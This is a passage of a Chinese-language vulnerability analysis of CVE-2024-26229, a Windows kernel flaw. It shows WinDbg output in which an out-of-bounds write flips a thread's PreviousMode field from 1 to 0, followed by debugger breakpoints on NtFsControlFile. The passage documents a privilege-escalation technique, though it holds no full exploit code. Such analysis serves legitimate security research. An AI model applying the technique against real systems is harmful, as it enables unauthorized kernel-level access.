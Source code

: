 ```
        UserTime                  00:00:00.000
        KernelTime                00:00:00.046
        Win32 Start Address 0x00007ff767d91810
        Stack Init ffffc90a255e7c90 Current ffffc90a255e7530
        Base ffffc90a255e8000 Limit ffffc90a255e2000 Call 0000000000000000
        Priority 8 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5

```

*   从`_KTHREAD`结构中查看`PreviousMode`字段

```
1: kd> dt nt!_KTHREAD ffffcb837fc6e080
    // 省略若干字段
   +0x220 Process          : 0xffffcb83`81e8d080 _KPROCESS
   +0x228 UserAffinity     : _GROUP_AFFINITY
   +0x228 UserAffinityFill : [10]  "???"
   +0x232 PreviousMode     : 1 ''
   +0x233 BasePriority     : 8 ''
   +0x234 PriorityDecrement : 0 ''
   +0x234 ForegroundBoost  : 0y0000
   // 省略若干字段

```

*   触发漏洞进行越界写 0

```
dt nt!_KTHREAD ffffcb837fc6e080
    // 省略若干字段
   +0x220 Process          : 0xffffcb83`81e8d080 _KPROCESS
   +0x228 UserAffinity     : _GROUP_AFFINITY
   +0x228 UserAffinityFill : [10]  "???"
   +0x232 PreviousMode     : 0 '' // 被修改
   +0x233 BasePriority     : 8 ''
   +0x234 PriorityDecrement : 0 ''
   +0x234 ForegroundBoost  : 0y0000
   // 省略若干字段

```

可以看到未触发漏洞前 PreviousMode 为 1，在触发漏洞后则被越界写为 0。

### NtFsControlFile 函数调用

*   仅对目标程序下断点调试 NtFsControlFile

```
0: kd> x nt!*NtFsControlFile*
fffff804`756e6f60 nt!NtFsControlFile (NtFsControlFile)
1: kd> !process 0 0 CVE-2024-26229-DEBUG.exe
PROCESS ffff988f7520e080
    SessionId: 1  Cid: 0568    Peb: 6c0bc49000  ParentCid: 10f4
    DirBase: 220cf5002  ObjectTable: ffffaa006bd91980  HandleCount:  44.
    Image: CVE-2024-26229-DEBUG.exe
 
// 获取目标调用线程EPROCESS地址（0xffff988f740b0080）
1: kd> !process ffff988f7520e080 7
     
// 过滤其他程序对NtFsControlFile的调用
1: kd> bp nt!NtFsControlFile ".if (@$proc != 0xffff988f740b0080) {gc;}"
1: kd> r
rax=fffff804756e6f60 rbx=ffff988f73f5d080 rcx=000000000000008c
rdx=0000000000000000 rsi=000000c4490ff678 rdi=ffff95020867daa8
rip=fffff804756e6f60 rsp=ffff95020867da88 rbp=ffff95020867db80
 r8=0000000000000000  r9=0000000000000000 r10=fffff804756e6f60
r11=fffff804753ef320 r12=0000000000000000 r13=0000000000000000
```